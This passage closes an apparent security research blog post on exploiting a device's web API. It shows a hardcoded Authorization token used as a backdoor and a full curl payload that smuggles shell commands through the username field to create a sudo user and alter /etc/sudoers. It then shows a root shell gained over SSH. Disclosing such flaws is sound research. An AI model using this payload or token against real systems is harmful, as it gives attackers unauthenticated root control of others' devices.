 So setting the Authorization header to `OlDkR+oocZg=` is enough to bypass the token check and to interact with the API. We can combine this backdoor with our remote command injection:

```bash
curl https://host/service/v1/createUser -k --data '{"username": ";useradd \"exploit\" -g 27; echo  \"exploit\":\"pwned\" | chpasswd >/dev/null 2>&1;sed -i \"s/Defaults        rootpw/ /g\" /etc/sudoers;#", "password": "test"}' -H "Authorization: OlDkR+oocZg=" -H "Content-Type: application/json"
```

And now log in:

```
X-C3LL@Kumonga ᐓ  ~ |
ᐓ   ssh exploit@192.168.0.20
exploit@192.168.0.20's password:
Could not chdir to home directory /home/exploit: No such file or directory
$ sudo su
[sudo] password for exploit:
root@vriot:/# id
uid=0(root) gid=0(root) groups=0(root)
```

So... **PWNED! >:)**. We have a shiny unauthenticated RCE as root.


# EoF

Maybe the vulnerability was easy to spot and easy to exploit, but a root shell is a root shell. And nobody can argue with you when you have a root shell. 

We hope you enjoyed this reading! Feel free to give us feedback at our twitter [@AdeptsOf0xCC](https://twitter.com/AdeptsOf0xCC).


